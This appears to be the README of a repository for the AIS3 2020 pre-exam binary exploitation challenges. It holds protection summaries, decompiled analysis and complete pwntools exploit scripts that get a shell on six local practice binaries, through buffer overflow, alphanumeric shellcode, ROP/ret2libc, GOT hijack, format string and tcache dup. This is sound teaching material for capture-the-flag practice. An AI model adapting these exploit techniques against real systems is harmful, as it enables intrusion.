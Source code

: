 # AIS3 pre-exam 2020

## Setup

```
docker-compose up --build -d
```

(Optional) If you want to rebuild the challenges, check the `Makefile` and run:

```
make
```

## Challenge

### 👻 BOF

> buffer overflow

#### Protection

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

The same as the challenge last year and check out the awesome writeup [here](https://github.com/yuawn/ais3-2019-pre-exam#bof---139-solves).

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10000

r = remote(ip, port)
# r = process("./bof")

context.arch = "amd64"

ret = 0x400699
shell = 0x400687

r.sendlineafter(".", 'a' * 0x38 + flat(ret, shell))

time.sleep(0.5)
r.sendline("cat /home/`whoami`/flag")

r.interactive()
```

</details>

### 📃 Nonsense

> alphanumeric shellcode, out of bounds

#### Protection

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

#### Analysis

- main

Read the input in `unk_601100` and `unk_6010A0`, and then call `sub_400698`. If the return value is not zero it will take `unk_6010A0` as function pointer and call it.

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  Z5nobufv();
  puts("Welcome to Rick and Morty's crazy world.");
  puts("What's your name?");
  read(0, &unk_601100, 0x10uLL);
  puts("Rick's stupid nonsense catchphrase is \"wubba lubba dub dub\".");
  puts("What's yours?");
  read(0, &unk_6010A0, 0x60uLL);
  if ( (unsigned int)sub_400698() )
    ((void (*)(void))unk_6010A0)();    // run shellcode
  else
    puts("Ummm, that's totally nonsense.");
  return 0LL;
}
```

- sub_400698

Check `unk_6010A0` contains only printable ASCII characters; in the meantime, check `byte_601040` "wubbalubbadubdub" string and it will cause out-of-bounds read. Dig into it. And you will find out that it will compare with `unk_601100` which you can control when it reads data out of bounds.

```c
__int64 sub_400698()
{
  int i; // [rsp+0h] [rbp-Ch]
  int v2; // [rsp+4h] [rbp-8h]
  int j; // [rsp+8h] [rbp-4h]

  for ( i = 0; i <= 95; ++i )
  {
    if ( byte_6010A0[i] <= 31 )
      return 0LL;
    v2 = 1;
    for ( j = 0; j <= 15; ++j )
    {
      if ( byte_6010A0[i + j] != byte_601040[j] )    // OOB read
        v2 = 0;
    }
    if ( v2 )
      return 1LL;
  }
  return 0LL;
}
```

#### Vulnerability

- the user input (`unk_601100` and `unk_6010A0`) are in RWX segment
- out-of-bounds read in `sub_400698`

#### Idea

Write the alphanumeric shellcode (< 96 bytes) and leverage OOB read to bypass the check if you need it.

You can see the available x86-64 instructions [here](https://nets.ec/Alphanumeric_shellcode) and construct the shellcode to get the shell. (there would be many ways to achieve it 😳)

My solution based on the [shellcode](https://hama.hatenadiary.jp/entry/2017/04/04/190129) (60 bytes) with the modification to fix the address of “/bin/sh” and append the nonsense string at the end.

**RR**Yh00AAX1A0hA004X1A4hA00AX1A8QX4**t**Pj0X40PZPjAX4znoNDnRYZnCXAwubbalubbadubdub

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10001

r = remote(ip, port)
# r = process("./nonsense")

context.arch = "amd64"

# https://hama.hatenadiary.jp/entry/2017/04/04/190129
payload = "RRYh00AAX1A0hA004X1A4hA00AX1A8QX4tPj0X40PZPjAX4znoNDnRYZnCXA"
nonsense = "wubbalubbadubdub"

name = "haha"
payload += nonsense

r.sendafter("?", name)
r.sendafter("?", payload)
time.sleep(0.5)
r.sendline("cat /home/`whoami`/flag")

r.interactive()
```

</details>

### 🔫 Portal gun

> return oriented programming, ret2libc

#### Protection

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

#### Analysis

- main

It uses `gets` function that causes buffer overflow vulnerability.

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char v4[112]; // [rsp+0h] [rbp-70h]

  Z5nobufv();
  puts("The Portal Gun is a gadget that allows the user(s) to travel between different universes/dimensions/realities.");
  puts("Where do you want to go?");
  gets(v4);    // buffer overflow
  return 0LL;
}
```

- hook.so

It hooks system function, and it just prints a string, not invoking a shell and executing a command.

```c
__int64 system()
{
  puts("** system function hook **");
  return 0LL;
}
```

#### Vulnerability

- Buffer overflow with no limit input length

#### Idea

Use Return Oriented Programming (ROP) to leak the library base address and get the shell. And jump to the beginning of the main function to launch the ROP attack multiple times.

- leak the library base address
    - leverage `puts` function to print the function address of the library, and then subtract the offset to get the base address of the library.
- get the shell
    - figure out the real address of the `system` function and invoke `system("sh")`.
    - one gadget
    - ...

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10002

r = remote(ip, port)
# r = process("./portal_gun", env = {"LD_PRELOAD": "./hook.so"})
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.arch = "amd64"

main = 0x4006fb
puts_plt = 0x400560
puts_got = 0x601018
pop_rdi = 0x4007a3

payload = 'a' * 120 + flat(pop_rdi, puts_got, puts_plt, main)

r.sendlineafter("?", payload)
r.recvline()
libc_base = u64(r.recvline()[:6].ljust(8, '\x00')) - libc.sym.puts

info("libc base: {}".format(hex(libc_base)))

magic = libc_base + 0x10a38c
payload = 'a' * 120 + flat(magic)
r.sendlineafter("?", payload)

time.sleep(0.5)
r.sendline("cat /home/`whoami`/flag")

r.interactive()
```

</details>

### 🏫 Morty school

> out of bounds, GOT hijack

#### Protection

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10003

r = remote(ip, port)
# r = process("./morty_school")

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.arch = "amd64"

r.recvuntil(": ")
libc_base = int(r.recvline()[:-1], 16) - libc.sym.puts
info("libc base: {}".format(hex(libc_base)))

magic = libc_base + 0x10a38c

# (0x4005c0 - 0x6020a0) / 0x18
r.sendlineafter("teach?", str(-87668))
r.sendafter(":", p64(magic))
r.sendafter(":", "\x00" * 0x100)

time.sleep(0.5)
r.sendline("cat /home/`whoami`/flag")

r.interactive()
```

</details>

### 🔮 Death crystal

> format string

#### Protection

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10004

r = remote(ip, port)
# r = process("./death_crystal")

context.arch = "amd64"

payload = "%d" * 11 + ".%llu"
r.sendlineafter(":", payload)

r.recvline()
code_base = int(r.recvline().split(".")[1]) - 0xb20
info("code base: {}".format(hex(code_base)))

flag = code_base + 0x202060
payload = flat("%d" * 8, ".%s.aaaa", p64(flag))
r.sendlineafter(":", payload)

r.interactive()
```

</details>

### 📦 Meeseeks box

> use after free, tcache dup

#### Protection

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

<details><summary>hack.py</summary>

```python
from pwn import *
import time

ip = "localhost"
port = 10005

r = remote(ip, port)
# r = process("./meeseeks_box")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

context.arch = "amd64"

def Create(sz, data):
    r.sendlineafter(">", "1")
    r.sendlineafter(":", str(sz))
    r.sendlineafter(":", data)

def Show(idx):
    r.sendlineafter(">", "2")
    r.sendlineafter(":", str(idx))

def Delete(idx):
    r.sendlineafter(">", "3")
    r.sendlineafter(":", str(idx))

# unsorted bin
Create(0x900, 'aaaa')
Create(0x20, 'bbbb')
Delete(0)
Show(0)

libc_base = u64(r.recvline()[1:7].ljust(8, '\x00')) - 0x3ebca0
libc.address = libc_base
info("libc base: {}".format(hex(libc_base)))
magic = libc_base + 0x10a38c

# tcache dup
Create(0x20, 'cccc')
Delete(2)
Delete(2)
Create(0x20, p64(libc.sym.__malloc_hook))
Create(0x20, 'dddd')
Create(0x20, p64(magic))

# trigger __malloc_hook and pop the shell
r.sendlineafter(">", "1")
r.sendlineafter(":", "hack")
time.sleep(0.5)
r.sendline("cat /home/`whoami`/flag")

r.interactive()
```

</details>


## Fun fact

- The easiest challenge 👻 BOF had been solved within 4 minutes after completion began by **qqgnoe466263**.
- A few people just submitted ```AIS3{TOO0O0O0O0OO0O0OOo0o0o0o00_EASY}```, and that is the flag of 👻 BOF last year. Such a nice try 🤪
- **LKK - Goburin'** got first blood on 🔫 Portal gun, 📃 Nonsense, 🏫 Morty school!
- **K1a - Goburin'** got first blood on 🔮 Death crystal and 📦 Meeseeks box!
- Congrats to **K1a - Goburin'**, **lys0829**, **hank0438**, **oalieno - r08921a06** and **LKK - Goburin'** for ALL KILL 💥 Pwn challenges!
